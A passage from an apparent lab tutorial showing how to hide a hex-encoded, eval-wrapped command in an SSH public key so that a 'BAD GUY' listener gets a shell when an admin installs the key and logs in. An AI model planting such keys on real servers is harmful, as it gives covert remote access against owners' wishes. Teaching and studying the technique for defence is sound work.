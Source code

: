    In the above:
   
   - "cat temp.txt | xxd -ps" encodes the content of the temp.txt file
   - "tr -d '\\n'" removes the return characters in the output of the above
   - "2>/dev/null;echo ''" redirects multiple prompts to /dev/null and adds a new line to the output
   
   For the above, the second and third lines are optional, if you don't mind manually making the payload a single line.

7) Copy the output from the above into .ssh/id_rsa.pub so that it looks something lile:
   
   ![](newkey1.png)
   
   In the above, you're:
   * pre-pending  'command="eval $(echo '  to the beginning of the payload
   * appending '|xxd -ps -r);" '  to the end of the payload
   * and prepending the payload construct to the front of the public key content.

8) Now pretend to be the actual admin, who's adding a key to a new server.  Do this by running:
   
   ```c
   ssh-copy-id admin@10.0.0.2
   ```

9) In the BAD GUY window, make sure that the listener is still running and, in the ADMIN window, ssh to the new server via:
   
   ```c
   ssh admin@10.0.0.2
   ```
   
   Did you notice that the prompt in the BAD GUY window changed?


## Suggestions for experimentation

The above is syntax sensitive and a bit crashy but it's just a POC. Much can be improved by experimentation.  Things to try:
